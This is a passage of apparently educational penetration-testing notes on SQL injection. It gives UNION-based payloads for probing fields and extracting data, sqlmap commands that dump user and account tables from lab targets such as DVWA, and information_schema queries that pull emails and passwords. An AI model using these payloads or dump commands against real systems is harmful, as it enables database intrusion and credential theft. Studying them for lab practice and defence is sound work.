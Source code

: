 ```bash
Warning: mysql_fetch_array() expects parameter 1 to be mysql_result, boolean given in /var/www/view.php on line 32
```

- We can try with two fields: `' UNION SELECT null null; -- -` and three even to confirm that the original query only has two fields.
- Once we know how many fields are in the query it's time to test which fields are part of the output page.
- You can do that by injecting some known values and checking thee results in the output page, as in: `' UNION SELECT 'elsid1', 'elsid2'; -- -`.
- Now we can exploit the injection: `' UNION SELECT user(), 'elsid2'; -- -`.
- Not only `SELECT` queries are vulnerable.

### SQLMap

- Can detect and exploit SQL injections
- Needs to know the vulnerable URL and the parameter to test for a SQLi

```bash
sqlmap -u <URL> -p <inejction parameter> [options]
sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U
sqlmap -u <url> --data=<POST string> -p id [options] # POST string as user=a&pass=a

# You can copy the POST string  from a request intercepted in Burp Suite
sqlmap -r file.req -p user
sqlmap -u 'http://192.168.1.20/dvwa/vulnerabilities/sqli/?id=231&Submit=Submit#' --cookie="PHPSESSID=26faf41ffba440ce1346b8d8ca9408ac; security=low" -D dvwa -T users --dump

# --technique=U --> UNION based SQL injection technique
# --banner shows server's banner
# --flush-session

sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D awd -T accounts --dump
```

#### From discord (to test)

```sql
1' UNION SELECT 1-- -

3' AND sleep(5) -- -

SELECT 1, schema_name,3 FROM information_schema.schemata limit 1,1-- -

SELECT 1, table_name,3 FROM information_schema.tables WHERE table_schema=hotel limit 1,1-- -

SELECT 1, column_name,3 FROM information_schema.columns WHERE table_schema=hotel and table_name=room limit 1,1

SELECT 1, table_name,3 FROM information_schema.tables limit 1,1-- -

SELECT group_concat(email,0x3a,Password) from awd.accounts limit 1,1;
```

